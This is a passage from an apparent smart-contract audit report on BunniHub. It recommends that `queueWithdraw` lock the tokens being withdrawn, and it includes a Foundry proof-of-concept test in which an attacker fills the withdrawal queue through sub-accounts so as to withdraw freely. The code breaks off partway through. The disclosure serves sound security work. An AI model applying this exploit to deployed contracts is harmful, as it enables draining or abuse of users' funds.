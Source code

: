 ## Recommendations

It is recommended that the `queueWithdraw` function lock the tokens to be withdrawn.

**Appendix: PoC**

Please insert this test function into the `BunniHub.t.sol` file.

```solidity
    function testYttriumzzPoC0005() external {
        // Init pool
        vm.label(address(token0), "token0");
        vm.label(address(token1), "token1");
        vm.label(address(permit2), "permit2");
        Currency currency0 = Currency.wrap(address(token0));
        Currency currency1 = Currency.wrap(address(token1));
        (IBunniToken bunniToken, PoolKey memory key) = _deployPoolAndInitLiquidity(currency0, currency1, ERC4626(address(0)), ERC4626(address(0)));

        // Mint some token0 and token1 for test
        address attaker = makeAddr("attaker");
        _mint(currency0, attaker, 100e18);
        _mint(currency1, attaker, 100e18);

        // Attacker used his sub-accounts to call `queueWithdraw` many times to occupy the queue
        // Each occupies 1e18 tokens
        IBunniHub.QueueWithdrawParams memory queueWithdrawParams;
        queueWithdrawParams.poolKey = key;
        queueWithdrawParams.shares = 1e18;
        for (uint160 i = 0; i < 100; i++) {
            address subAccount = address(uint160(makeAddr("sub-account")) + i);
            vm.prank(subAccount); hub.queueWithdraw(queueWithdrawParams);
        }
        vm.warp(block.timestamp + WITHDRAW_DELAY);

        // Attaker mint bunniToken
        vm.startPrank(attaker);
        IBunniHub.DepositParams memory depositParams;
        depositParams.poolKey = key;
        depositParams.amount0Desired = 100e18;
        depositParams.amount1Desired = 100e18;
        depositParams.deadline = block.timestamp;
        depositParams.recipient = attaker;
        depositParams.refundRecipient = attaker;
        token0.approve(address(permit2), type(uint256).max);
        token1.approve(address(permit2), type(uint256).max);
        permit2.approve(address(token0), address(hub), type(uint160).max, type(uint48).max);
        permit2.approve(address(token1), address(hub), type(uint160).max, type(uint48).max);
        hub.deposit(depositParams);
        vm.stopPrank();

        console.log("token0.balanceOf(attaker): %s", token0.balanceOf(attaker));
        console.log("token1.balanceOf(attaker): %s", token1.balanceOf(attaker));
        console.log("bunniToken.balanceOf(attaker): %s", bunniToken.balanceOf(attaker));

        // Attaker can withdraw any amount of tokens at any time
        IBunniHub.WithdrawParams memory withdrawParams;
        withdrawParams.poolKey = key;
        withdrawParams.recipient = address(attaker);
        withdrawParams.shares = 1e18;
        withdrawParams.deadline = block.timestamp;
        withdrawParams.useQueuedWithdrawal = true;
        for (uint160 i = 0; i < 10; i++) {
            address subAccount = address(uint160(makeAddr("sub-account")) + i);
```